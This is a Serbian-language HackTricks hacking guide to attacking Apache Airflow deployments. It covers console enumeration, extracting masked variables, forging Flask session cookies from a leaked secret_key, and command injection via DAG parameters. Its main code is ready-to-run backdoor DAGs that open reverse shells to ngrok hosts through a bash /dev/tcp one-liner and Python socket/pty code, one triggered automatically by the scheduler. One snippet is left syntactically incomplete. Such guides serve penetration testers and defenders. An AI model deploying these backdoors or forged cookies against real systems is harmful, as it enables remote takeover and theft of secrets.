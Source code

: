 # Apache Airflow Bezbednost

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** me na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[**Apache Airflow**](https://airflow.apache.org) služi kao platforma za **orkestraciju i zakazivanje data pipeline-ova ili radnih tokova**. Pojam "orkestracija" u kontekstu data pipeline-ova označava proces organizovanja, koordinacije i upravljanja složenim data radnim tokovima koji potiču iz različitih izvora. Osnovna svrha ovih orkestriranih data pipeline-ova je obezbeđivanje obrađenih i upotrebljivih skupova podataka. Ovi skupovi podataka se široko koriste od strane raznih aplikacija, uključujući, ali ne ograničavajući se na alate za poslovnu inteligenciju, modele za data nauku i mašinsko učenje, koji su osnova za funkcionisanje aplikacija velikih podataka.

U osnovi, Apache Airflow će vam omogućiti da **zakazujete izvršavanje koda kada se nešto** (dogadjaj, cron) **desi**.

## Lokalni Lab

### Docker-Compose

Možete koristiti **docker-compose konfiguracioni fajl sa** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) da pokrenete kompletno Apache Airflow okruženje u Dockeru. (Ako koristite MacOS, obezbedite da Docker VM ima najmanje 6GB RAM-a).

### Minikube

Jedan jednostavan način da **pokrenete Apache Airflow** je da ga pokrenete **sa minikube-om**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Konfiguracija

Airflow može čuvati **osetljive informacije** u svojoj konfiguraciji ili možete pronaći slabu konfiguraciju:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Pre nego što počnete napadati Airflow, trebali biste razumeti **kako dozvole funkcionišu**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Napadi

### Enumeracija veb konzole

Ako imate **pristup veb konzoli**, možda ćete moći pristupiti nekim ili svim sledećim informacijama:

* **Promenljive** (Ovde se može čuvati prilagođene osetljive informacije)
* **Veze** (Ovde se može čuvati prilagođene osetljive informacije)
* Pristupite im na `http://<airflow>/connection/list/`
* [**Konfiguracija**](./#airflow-configuration) (Ovde se može čuvati osetljive informacije poput **`secret_key`** i lozinki)
* Lista **korisnika i uloga**
* **Kod svakog DAG-a** (koji može sadržati zanimljive informacije)

### Dobijanje vrednosti promenljivih

Promenljive se mogu čuvati u Airflow-u kako bi **DAG-ovi** mogli **pristupiti** njihovim vrednostima. Slično je tajnama drugih platformi. Ako imate **dovoljno dozvola**, možete im pristupiti u GUI na `http://<airflow>/variable/list/`.\
Airflow će po defaultu prikazivati vrednost promenljive u GUI-ju, međutim, prema [**ovome**](https://marclamberti.com/blog/variables-with-apache-airflow/), moguće je postaviti **listu promenljivih** čija će **vrednost** biti prikazana kao **zvezdice** u **GUI-ju**.

![](<../../.gitbook/assets/image (79).png>)

Međutim, ove **vrednosti** i dalje se mogu **dobiti** putem **CLI-ja** (potreban je pristup bazi podataka), **proizvoljnog izvršavanja DAG-a**, **API-ja** pristupanjem krajnjoj tački promenljivih (API mora biti aktiviran) i **čak samog GUI-ja!**\
Da biste pristupili tim vrednostima iz GUI-ja, jednostavno **izaberite promenljive** do kojih želite pristupiti i **kliknite na Akcije -> Izvoz**.\
Još jedan način je izvršiti **bruteforce** na **skrivenu vrednost** koristeći **pretragu filtriranja** dok je ne dobijete:

![](<../../.gitbook/assets/image (30).png>)

### Eskalacija privilegija

Ako je konfiguracija **`expose_config`** postavljena na **True**, korisnici sa ulogom **Korisnik** i **višom** mogu **čitati** konfiguraciju na vebu. U ovoj konfiguraciji se pojavljuje **`secret_key`**, što znači da bilo koji korisnik sa ovim ključem može **kreirati sopstveni potpisani kolačić da bi se predstavio kao bilo koji drugi korisnički nalog**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Backdoor (RCE u Airflow radniku)

Ako imate **pristup pisanju** na mestu gde su **DAG-ovi sačuvani**, možete jednostavno **kreirati jedan** koji će vam poslati **obrnuti shell**.\
Imajte na umu da će se ovaj obrnuti shell izvršiti unutar **Airflow radničkog kontejnera**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Backdoor (RCE u Airflow scheduleru)

Ako postavite nešto da se **izvrši u korenu koda**, u trenutku pisanja ovog teksta, to će biti **izvršeno od strane planera** nekoliko sekundi nakon što ga stavite u folder DAG-a.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Kreiranje DAG-a

Ako uspete da **kompromitujete mašinu unutar DAG klastera**, možete kreirati nove **DAG skripte** u `dags/` folderu i one će biti **replikovane na ostalim mašinama** unutar DAG klastera.

### Ubacivanje koda u DAG

Kada izvršavate DAG iz GUI-ja, možete mu **proslediti argumente**.\
Stoga, ako DAG nije pravilno napisan, može biti **ranjiv na ubacivanje komandi**.\
To se dogodilo u ovom CVE-u: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Sve što trebate znati da biste **počeli tražiti ubacivanje komandi u DAG-ove** je da se **parametri** **pristupaju** pomoću koda **`dag_run.conf.get("param_name")`**.

Osim toga, ista ranjivost može se pojaviti i sa **promenljivama** (napomena: sa dovoljno privilegija možete **kontrolisati vrednost promenljivih** u GUI-ju). Promenljive se **pristupaju sa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ako se na primer koriste unutar bash komande, moguće je izvršiti ubacivanje komande.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
